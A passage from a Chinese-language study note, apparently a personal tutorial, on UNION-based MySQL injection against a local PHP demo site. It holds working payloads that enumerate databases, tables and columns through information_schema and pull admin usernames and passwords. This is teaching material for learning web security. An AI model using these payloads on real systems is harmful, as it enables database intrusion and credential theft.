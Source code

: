 1. information_schema.tables表记录表名信息的表
2. table_schema：information_schema.tables记录**数据库名的列名值**
3. table_name：information_schema.tables记录**表名的列名值**
4. group_concat()是全部查询出来

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4205.png)

`union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_schema='demo01' and table_name='admin'`

这个UNION查询选择了6个列，并从information_schema.columns表中返回指定表（admin）中的所有列名的组合字符串。

1. `information_schema.columns` **记录列名信息表**
2. `table_name`：information_schema.tables记录**表名的列名值**
3. `column_name：`information_schema.columns**记录列名的列名值**

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4206.png)

`union select 1,2,3,username,password,6 from admin limit 0,1`：这个UNION查询选择了6个列，并从**admin表中返回第一行记录的用户名和密码。**

1. limit 0,1代表是查询第一条。
2. limit 0,2代表是查询第二条。

limit的基础运用：https://blog.csdn.net/Aery_ha/article/details/143787129

若没显示可以用id=-1来使其报错显示。

也可以使用简单粗暴的：

`union select 1,2,3,username,passsword,6 from admin where id = 1`

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4207.png)

##  PHP—MYSQL—SQL跨库查询

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/6cd189f6fe894e6f93105500e2a9b47b.png)

我本地没下载CMS和模板，所以就只展示sql语句部分了，反正主要查询的还是数据库中的信息。

#### 先查身份是否为root

我本地使用的不是root身份，所以先去修改一下代码中的数据库配置。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4208.png)

#### 跨库查询顺序

`union select 1,2,3,group_concat(schema_name),5,6 from information_schema.schemata`

通过 information_schema.schemata 获取所有数据库的名称，并将这些名称连接成一个字符串。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4209.png)



`union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema='phpdemo'`
